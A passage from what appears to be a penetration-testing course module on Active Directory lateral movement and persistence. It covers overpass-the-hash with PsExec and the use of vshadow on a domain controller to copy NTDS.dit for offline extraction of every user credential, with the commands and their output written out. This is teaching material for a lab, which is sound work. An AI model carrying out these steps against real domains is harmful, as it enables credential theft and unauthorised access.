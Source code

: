 Note that by creating our own TGT and then using PsExec, we are performing the _overpass the hash_ attack by leveraging Kerberos authentication as we discussed earlier in this Module. If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked as the next listing shows.

```shell
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldnt access 192.168.50.70:
Access is denied.
```

#### Shadow Copies (ntds.dit and system)

As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database **NTDS.dit** database file.[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/shadow-copies#fn4) Once we've obtained a copy of said database, we can extract every user credential offline on our local Kali machine.

```shell
C:\Tools>"C:\Program Files (x86)\Windows Kits\10\bin\10.0.19041.0\x86\vshadow.exe" -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami